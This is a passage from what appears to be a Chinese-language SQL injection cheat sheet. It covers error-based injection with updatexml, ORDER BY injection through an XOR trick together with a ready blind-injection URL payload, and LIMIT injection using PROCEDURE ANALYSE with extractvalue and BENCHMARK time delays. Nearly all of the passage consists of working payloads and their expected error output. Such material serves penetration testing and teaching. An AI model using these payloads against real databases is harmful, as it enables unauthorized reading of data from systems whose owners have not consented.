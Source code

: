 - 用法: `updatexml(XPath_Document, XPath_String, new_value)`, 其中 XPath_String 必须符合 XPath 语法, 否则将会报错.
- 例如: `<sql query> or updatexml(1, concat(0x7e, (select @@version), 0x7e), 1)`将会报错:  
  **ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'**

## 9. order 注入

正常的 SQL 语句:

```sql
select * from users order by id desc;
```

当 desc 字段可控时, 即有可能存在 oreder by 注入。

1. 如果有报错信息输出，可尝试通过报错注入完成 sql 注入攻击
2. 如果没有回显，可尝试盲注的手法来注入

这里的 desc 是可控字符串的话，我们让这条语句变下形：

```sql
select * from users order by id ^0;
```

这样的话，由于 order by 默认是升序排列的，没有 desc 也没有影响，同时，加上了^0 也还是 id 本身，所以跟原来正常的排序没有任何的变化。

```sql
select * from users order by id ^1;
```

于是我们可以构造盲注 payload

```sql
http://127.0.0.1:8888/?content=&order=id^(select%20if(1=1,%201,%200))
```

## 10. limit 注入

报错回显:

```sql
select id from users order by id desc limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
```

延时无回显:

```sql
select id from users order by id limit 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(if(mid(version(),1,1) like 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

{% endraw %}
